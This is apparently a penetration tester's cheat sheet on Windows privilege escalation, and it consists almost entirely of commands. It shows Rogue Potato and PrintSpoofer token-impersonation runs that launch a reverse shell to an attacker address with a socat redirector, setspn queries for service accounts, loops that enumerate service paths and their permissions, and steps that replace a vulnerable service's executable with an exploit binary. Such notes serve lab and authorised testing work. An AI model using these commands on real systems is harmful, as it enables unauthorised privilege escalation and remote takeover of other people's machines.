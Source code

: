 #### Rogue Potato - Token Impersonation
```powershell
sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999
C:\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe # triggered on ADMIN use
C:\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999 # in local service reverse shell run exploit
``` 

#### PrintSpoofer - Token Impersonation
```
C:\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe # triggered on ADMIN use
C:\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i # in local service reverse shell run exploit
```
[PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases)


## SPN map
```powershell
setspn -T medin -Q  */*        # extract all accounts in the SPN (service principle name) service and account mapping, may contain passwords..
```

## Services
See [[Windows-Services]] and [[Windows-System-And-Service-Privileges]]

Wmic available
```powershell
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
```
Wmic unavaliable
```powershell
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
# Look for \Program Files\* as they are User installed and DEv is charge directory structure and persmissions of Software.
```
Check here for detailed [[Windows-Permissions]] descriptions. 
```powershell
icacls *.exe
```
Replace executable with malicious binary, stop the original, get start options.
```powershell
# compile PrivEsc code C,C++ and C# are probably best choices
move "*.exe" "original.exe.bkp" # backup
move exploit.exe "\*exe's\path"
net stop Vulnerable_Service
wmic service where caption="Vulnerable_Service" get name, caption, state, startmode
# Check the start mode and adjust accordingly
```
